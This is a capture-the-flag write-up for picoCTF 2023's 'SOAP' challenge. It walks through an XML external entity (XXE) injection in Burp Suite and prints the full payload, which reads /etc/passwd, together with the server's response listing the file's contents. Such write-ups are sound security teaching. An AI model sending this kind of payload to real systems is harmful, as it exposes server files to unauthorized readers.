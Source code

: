 # SOAP

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Medium
Tags: picoCTF 2023, Web Exploitation, XXE
Author: GEOFFREY NJOGU

Description:
The web project was rushed and no security assessment was done. 
Can you read the /etc/passwd file?

Hints:
1. XML external entity Injection
```

Challenge link: [https://play.picoctf.org/practice/challenge/376](https://play.picoctf.org/practice/challenge/376)

## Solution

It's usually good practice to look through the source code of the web site but in this case we already know what
we are looking for thanks to the hint. For more background on XXE see the references below.

Start [BURP Suite](https://portswigger.net/burp) and set 'Intercept' to off under the Proxy -> Intercept tab.
Then configure your browser to use Burp as its proxy and go to the web site.

Clicking on any of the 'Details' buttons sends POST requests with the following payload

```xml
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```

We will inject code in this payload to read the `/etc/passwd` file.

Under Proxy -> HTTP history tab right-click on any of the POST requests and 'Send to Repeater'.
Then navigate to the Repeater tab.

In the XML-payload add `<!DOCTYPE data [<!ENTITY pico SYSTEM '/etc/passwd'>]>` between the first XML-line and `<data>`.  
Then replace the number with `&pico;` and don't change anything else.

In total your XML-payload should look like this

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE data [<!ENTITY pico SYSTEM '/etc/passwd'>]>
  <data>
    <ID>
      &pico;
    </ID>
  </data>
```

The 'pico' name is arbitrary and can be called anything. In many code examples it is called 'data' but I chose 'pico' here.

Press the 'Send'-button to send your request.

The response should look like this

```text
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Fri, 28 Jul 2023 11:58:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{<REDACTED>}
```

The flag is included in the last line of the `/etc/passwd` file output.

## References

- [Burp suite - Homepage](https://portswigger.net/burp)
- [XML external entity (XXE) injection - PortSwigger](https://portswigger.net/web-security/xxe)
- [XML External Entity (XXE) Processing - OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
